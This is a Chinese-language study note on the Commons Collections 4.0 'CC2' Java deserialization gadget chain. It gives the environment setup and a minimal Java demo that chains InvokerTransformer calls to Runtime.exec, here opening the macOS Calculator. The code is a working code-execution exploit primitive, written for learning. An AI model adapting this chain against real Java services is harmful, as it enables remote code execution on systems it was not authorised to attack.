 # CommonsCollections2利用链学习








## 环境配置

CC版本设置为4

javasist用来动态修改java字节码的助手



> 在cc4.0中，cc1链也可以用



环境：

- [JDK8u65](https://www.oracle.com/cn/java/technologies/javase/javase8-archive-downloads.html)

- [openJDK 8u65](http://hg.openjdk.java.net/jdk8u/jdk8u/jdk/rev/af660750b2f4)

- Maven 3.6.3(其余版本可以先试试，不行再降版本)

- Commons-Collections **4.0**

  

Maven 下载 Commons-Collections4 依赖：

```xml
<dependency>  
 <groupId>org.apache.commons</groupId>  
 <artifactId>commons-collections4</artifactId>  
 <version>4.0</version>  
</dependency>
```





## 最简demo

漏洞利用的原型（还不是反序列化）：

```java
static Object cc2(String command) throws Exception{
  Transformer[] transformers = new Transformer[]{
    new ConstantTransformer(Runtime.class),    //Runtime.class的类型是class
    new InvokerTransformer("getMethod"
                           , new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}),
    new InvokerTransformer("invoke"
                           , new Class[]{Object.class, Object[].class}, new Object[]{null, null}),
    new InvokerTransformer("exec"
                           , new Class[]{String.class}, new Object[]{"/System/Applications/Calculator.app/Contents/MacOS/Calculator"})
  };

  Transformer transformerChain = new ChainedTransformer(transformers);
  TransformingComparator transforming_Comparator = new TransformingComparator(transformerChain);
  transforming_Comparator.compare(1, 2);
  return "1";
}
```
